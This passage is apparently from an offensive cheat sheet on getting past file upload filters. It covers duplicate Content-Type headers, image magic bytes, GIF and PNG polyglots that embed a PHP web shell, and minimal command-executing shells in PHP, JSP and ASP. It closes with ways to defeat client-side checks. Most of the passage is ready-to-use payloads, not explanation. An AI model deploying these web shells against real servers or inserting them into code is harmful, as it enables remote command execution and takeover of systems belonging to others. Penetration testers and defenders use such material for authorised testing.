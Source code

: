 #### Content-Type Multiple Headers
```
Content-Type: image/jpeg
Content-Type: application/x-php
```

### 3. Content/Magic Bytes Validation Bypass

#### Image Magic Bytes (Hexadecimal)
```
GIF89a;  => 47 49 46 38 39 61
PNG      => 89 50 4E 47 0D 0A 1A 0A
JPG/JPEG => FF D8 FF E0
BMP      => 42 4D
```

#### Polyglot Files (Example for PHP)
```
GIF89a;
<?php system($_GET['cmd']); ?>
```

#### Polyglot Files (Example for PHP in PNG)
```
PNG
<?php system($_GET['cmd']); ?>
[PNG binary data]
```

### 4. Size Restriction Bypass

#### Minimal PHP Shell
```php
<?=`$_GET[0]`?>
<?php system($_GET[c]); ?>
```

#### Minimal JSP Shell
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

#### Minimal ASP Shell
```asp
<% eval request("cmd") %>
```

### 5. Client-Side Validation Bypass

#### Disabling JavaScript
- Use browser dev tools to disable JavaScript
- Use a proxy tool (Burp Suite, ZAP) to intercept and modify requests

#### Request Modification
```
# Original Form
<input type="file" name="uploadFile" accept="image/jpeg,image/png" />

# Bypass: Remove or modify accept attribute using browser dev tools
<input type="file" name="uploadFile" />
```
